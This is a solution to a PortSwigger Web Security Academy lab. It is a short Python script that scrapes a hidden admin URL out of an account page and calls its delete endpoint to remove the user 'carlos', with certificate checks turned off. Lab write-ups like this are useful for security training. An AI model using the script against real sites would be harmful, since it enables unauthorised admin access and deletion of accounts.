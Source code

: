 # Lab: Unprotected admin functionality with unpredictable URL

Link to lab: https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality-with-unpredictable-url

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = 'https://0aff0066042b7ac5c185a3210009000d.web-security-academy.net/'

session = requests.Session()

response = session.get(
    url + 'my-account',
    verify=False,
)
pattern = r"admin-\w{6}\b"
match = re.search(pattern, response.text)


response = session.get(
    url + match.group() + '/delete?username=carlos',
    verify= False
)

print(response.text)
```